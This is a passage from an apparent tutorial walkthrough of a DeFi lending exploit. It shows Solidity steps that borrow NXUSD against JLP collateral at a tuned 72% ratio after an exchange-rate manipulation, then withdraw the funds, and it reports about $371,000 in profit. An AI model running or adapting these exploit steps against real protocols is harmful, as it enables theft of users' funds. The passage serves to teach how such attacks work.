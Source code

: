   <span style="color:rgb(245, 135, 31); font-weight:400;">require</span>(updated, <span style="color:rgb(113, 140, 0); font-weight:400;">&#x27;Exchange rate was not updated&#x27;</span>);

  <span style="color:rgb(142, 144, 140); font-weight:400;">// Step 6: Borrow the 72% of the collateral amount. This seems to be the</span>
  <span style="color:rgb(142, 144, 140); font-weight:400;">// sweet spot, 73% and above just fails</span>
  uint256 amountToBorrow = ((amountLP / rate) * <span style="color:rgb(245, 135, 31); font-weight:400;">1e18</span> * <span style="color:rgb(245, 135, 31); font-weight:400;">720</span>) / <span style="color:rgb(245, 135, 31); font-weight:400;">1000</span>;
  cauldron.borrow(address(<span style="color:rgb(245, 135, 31); font-weight:400;">this</span>), amountToBorrow);
}</code></pre>

I figured out the 72% number through experimentation. Anything above this percentage was causing the transaction to revert due to the solvency check in the `solvent` modifier.

**Here's the interesting thing here: if you go back to step 3, we used 260,000 * 2 = 520,000 USDC to acquire this amount of JLP tokens. After the exchange rate is updated, this same amount of JLP tokens is now worth a little over $1.3m. You can calculate this value yourself by dividing the amount of LP tokens you provided as collateral by the exchange rate.**

Note that after this step, we still won't have access to our borrowed NXUSD. The `cauldron` contract will instead tell the DegenBox contract that we are able to now `withdraw()` X amount of NXUSD tokens from that contract (X being the amount we borrowed so long as the `borrow()` function didn't revert).

Let's actually get the tokens now:

<pre>
 <code id="htmlViewer" style="color:rgb(77, 77, 76); font-weight:400;background-color:rgb(255, 255, 255);background:rgb(255, 255, 255);display:block;padding: .5em;">function executeOperation(
  <span style="color:rgb(142, 144, 140); font-weight:400;">// ...</span>
) <span style="color:rgb(137, 89, 168); font-weight:400;">public</span> returns (bool) {
  <span style="color:rgb(142, 144, 140); font-weight:400;">// ...</span>
  
  <span style="color:rgb(142, 144, 140); font-weight:400;">// Step 7: Actually get our tokens. We borrowed them, but we need to</span>
  <span style="color:rgb(142, 144, 140); font-weight:400;">// withdraw them now</span>
  uint256 borrowedBalance = degenbox.balanceOf(address(nxusd), address(<span style="color:rgb(137, 89, 168); font-weight:400;">this</span>));
  degenbox.withdraw(nxusd, address(<span style="color:rgb(137, 89, 168); font-weight:400;">this</span>), address(<span style="color:rgb(137, 89, 168); font-weight:400;">this</span>), borrowedBalance, borrowedBalance);
}</code></pre>

I highly suggest reading through the functions being called in this step as well as the previous step. They interact in an interesting way, and you'll learn a lot about how a protocol like this actually works in practice.

After this step, we have ~998,000 NXUSD. Assuming the 1:1 peg with USDC, we should have made a little over ~$400,000 in profit at this point. Of course, we won't be able to keep it all when we convert the NXUSD back to USDC, but that's ok, we only lose ~$29,000 in "fees" and keep ~$371,000 :D

### Step 7: Get our USDC tokens back
